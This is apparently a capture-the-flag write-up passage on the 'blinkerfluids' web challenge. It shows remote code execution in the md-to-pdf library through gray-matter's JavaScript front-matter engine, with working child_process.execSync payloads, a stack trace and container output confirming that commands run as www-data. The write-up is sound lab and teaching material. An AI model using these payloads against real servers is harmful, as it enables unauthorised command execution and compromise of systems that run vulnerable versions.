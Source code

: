 ```
---jsn((require("child_process")).execSync("id > /app/static/RCE.txt"))n---RCE
```

It doesn't generate, and shows this error

```
exError: gray-matter engine "jsn((require("child_process")).execSync("id > /app/static/RCE.txt"))n---RC" is not registered
    at module.exports (/app/node_modules/gray-matter/lib/engine.js:6:11)
    at module.exports (/app/node_modules/gray-matter/lib/parse.js:8:18)
    at parseMatter (/app/node_modules/gray-matter/index.js:109:17)
    at Object.matter [as default] (/app/node_modules/gray-matter/index.js:50:10)
    at Object.convertMdToPdf (/app/node_modules/md-to-pdf/dist/lib/md-to-pdf.js:23:75)
    at mdToPdf (/app/node_modules/md-to-pdf/dist/index.js:30:35)
    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)
    at async /app/helpers/MDHelper.js:8:13
2022-05-15 01:50:51,066 INFO reaped unknown pid 130
```

#### Researching more on Graymatter

https://github.com/simonhaenisch/md-to-pdf/issues/99

Payload

```
---js
((require("child_process")).execSync("id > /tmp/RCE.txt"))
---RCE'
```

```
(base) [hacker@hackerbook ~]$ sudo docker exec -it web_blinkerfluids bash
[sudo] password for hacker: 
root@a5eeeb6f9ab1:/app# ls
database.js  helpers  index.js	invoice.db  node_modules  package-lock.json  package.json  routes  static  views
root@a5eeeb6f9ab1:/app# cd static/  
root@a5eeeb6f9ab1:/app/static# cat /tmp/RCE.txt 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
root@a5eeeb6f9ab1:/app/static# 
```

### Commands to Execute

#### File Write to Accessible locations 
Payload


```
---js
((require("child_process")).execSync("id > /app/static/RCE.txt"))
---RCE'
```

![](Pasted%20image%2020220515095632.png)
